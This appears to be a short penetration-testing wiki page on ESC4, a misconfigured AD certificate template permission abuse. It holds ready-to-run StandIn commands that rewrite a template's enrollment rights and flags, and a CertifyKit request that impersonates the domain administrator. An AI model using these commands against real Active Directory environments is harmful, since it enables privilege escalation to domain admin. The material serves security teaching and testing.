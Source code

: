 ```yaml
---
description: Domain escalation via misconfigured certificate template access control
---
```


# ESC4

This misconfiguration can occur when unintended users are granted one of the following template security permissions:

* Owner
* WriteOwnerPrincipals
* WriteDaclPrincipals
* WritePropertyPrincipals

#### Adding Certificates with StandIn

To add certificates using StandIn, follow these examples:

*   **Certificate Enrollment Permission**: To allow Domain Users to enroll for certificates, use the following command:

    {% code fullWidth="true" %}
    ```powershell
    StandIn_v13_Net45.exe --ADCS --filter SecureUpdate ntaccount "cb domain users" --enroll --add
    ```
    {% endcode %}
*   **Client Authentication EKU**: To add a certificate with Client Authentication EKU, execute:

    ```powershell
    StandIn_v13_Net45.exe --ADCS --filter SecureUpdate --clientauth --add
    ```

ENROLLEE\_SUPPLIES\_SUBJECT:

```
StandIn_v13_Net45.exe --ADCS --filter SecureUpdate --ess --add
```

An example for SmartCardLogon ESC4 Abuse using CertifyKit’s /alter option is as follows:

{% code fullWidth="true" %}
```
CertifyKit.exe request /ca:cb-ca.cb.corp\CB-CA /template:'SecureUpdate' /altname:administrator
/domain:cb.corp /alter /sidextension:S-1-5-21-2928296033-1822922359-262865665-500
```
{% endcode %}
